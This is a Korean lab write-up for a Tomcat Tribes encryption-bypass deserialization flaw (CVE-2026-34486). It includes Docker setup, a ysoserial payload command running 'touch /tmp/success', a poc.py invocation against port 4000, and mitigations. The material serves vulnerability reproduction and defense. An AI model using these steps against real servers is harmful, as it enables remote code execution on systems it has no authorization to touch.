



# Tomcat Tribes EncryptInterceptor Bypass Remote Code Execution (CVE-2026-34486)

## 요약
Apache Tomcat은 Java Servlet, JavaServer Pages, Java Expression Language, WebSocket 기술을 구현한 오픈소스 소프트웨어이자 웹 애플리케이션 서버(WAS)이다. Tomcat Tribes는 Tomcat과 함께 제공되는 클러스터링 프레임워크이다. 

Tribes가 활성화된 Tomcat 인스턴스들은 Java 직렬화(serialization)를 통해 서로 메시지를 교환하며, `EncryptInterceptor`가 구성되어 있는 경우 이 직렬화된 바이트 스트림은 암호화된 형태로 전송된다. 

정상적인 상황에서는 메시지를 수신한 Tomcat 인스턴스가 복호화에 성공한 이후에만 메시지를 역직렬화(deserialize)한다. 그러나 CVE-2026-29146(Tribes EncryptInterceptor 패딩 오라클 취약점)에 대한 공식 수정 과정에서, 복호화가 실패했을 때 처리 파이프라인을 중단시키지 못하는 버그가 도입되었다. 

그 결과 복호화 성공 여부와 관계없이 원본 바이트 스트림이 하위 핸들러로 그대로 전달되어 최종적으로 역직렬화되고 실행된다. 따라서 Tribes 수신 포트(기본값 4000)에 네트워크로 접근할 수 있는 공격자는 Java 역직렬화 페이로드를 담은 암호화되지 않은 메시지를 전송함으로써, EncryptInterceptor의 암호화 보호를 완전히 우회하고 원격 코드 실행을 달성할 수 있다. 

이 취약점은 Apache Tomcat 9.0.116, 10.1.53, 11.0.20 버전에 영향을 미친다.

## 환경 구성

다음 명령을 실행하여 Tribes 클러스터링과 EncryptInterceptor가 활성화된 취약한 Tomcat 9.0.116 서버를 시작해 환경을 구축한다:
```
docker compose up -d
``` 
서버가 시작되면 http://your-ip:8080에서 Tomcat 기본 페이지를 볼 수 있다. Tribes 수신기는 4000 포트에서 대기하고 있다.



## 취약 조건

- `server.xml`에서 `<Cluster>`가 명시적으로 활성화되어 있어야 함.
- Cluster의 Channel에 `EncryptInterceptor`가 구성되어 있어야 함.
- Tribes 수신 포트에 공격자가 네트워크를 통해 접근할 수 있어야 함. (기본적으로 4000 포트에서 수신 대기)
- 사용 가능한 역직렬화 가젯 체인(예: Apache Commons Collections)이 클래스패스에 존재해야 함.


참고 자료:
- <https://www.cyberkendra.com/2026/04/apache-tomcats-security-fix-opened-door.html>
- <https://www.herodevs.com/vulnerability-directory/cve-2026-34486>
- <https://github.com/advisories/GHSA-69r9-qgr7-g2wj>

## 재현 절차

해당 취약점은 EncryptInterceptor 우회를 이용하여 암호화되지 않은 Java 역직렬화 페이로드를 Tribes 수신 포트로 전송한다. 취약한 컨테이너에는 `commons-collections 3.2.1`이 클래스패스에 포함되어 있으므로, 임의의 Apache Commons Collections 가젯 체인을 사용하여 시스템 명령을 실행할 수 있다.

### 1. 직렬화 페이로드 구성

[ysoserial](https://github.com/frohoff/ysoserial)을 사용해 직렬화된 페이로드를 구성한다.

```
java --add-opens java.base/java.util=ALL-UNNAMED \
     --add-opens java.base/java.lang=ALL-UNNAMED \
     --add-opens java.base/java.lang.reflect=ALL-UNNAMED \
     -jar ysoserial.jar CommonsCollections6 "touch /tmp/success" > payload.ser
```

_--add-opens 플래그는 JDK 9부터 도입된 모듈 시스템(JPMS)이 기본적으로 막는 내부 패키지 접근을 강제로 허용하는 역할을 한다. ysoserial은 가젯 체인을 구성할 때 리플렉션으로 JDK 내부 클래스(java.util, java.lang.reflect 등)에 접근하는데, 모듈 시스템이 이를 캡슐화로 차단하므로 해당 패키지들을 명시적으로 열어주어야 페이로드 생성이 정상 동작한다._

페이로드를 구성할 때는 예시로 `touch /tmp/success`로 Tomcat 서버내의 /tmp/success라는 파일을 만들게끔 하였다. 해당 페이로드는 원하는 command로 변경해주면 된다.

### 2. poc.py

그런 다음 제공된 `poc.py` 스크립트를 사용하여 페이로드를 Tribes 프레임으로 감싸 수신 포트로 전송한다:

```
python3 poc.py -t your-ip -p 4000 -f payload.ser
```



## 실행 결과

컨테이너 내부에서 파일을 확인하여 명령이 실행되었는지 검증한다:

```
docker compose exec tomcat ls -la /tmp/success
```




`/tmp/success` 파일이 존재한다면, 역직렬화 페이로드가 처리되어 명령이 성공적으로 실행되었음을 확인할 수 있다.

## 환경 종료

```
docker compose down
```

## 대응 방안

- 취약 버전(9.0.116 / 10.1.53 / 11.0.20) 이후 출시된 패치 버전을 적용
- 불필요한 클러스터링 비활성화
  - `server.xml`에서 `<Cluster>` 설정을 제거하거나 주석 처리
- 탐지 및 모니터링
  - Tomcat 로그에 남는 `SEVERE: Failed to decrypt message` 발생을 모니터링하여 우회 시도를 탐지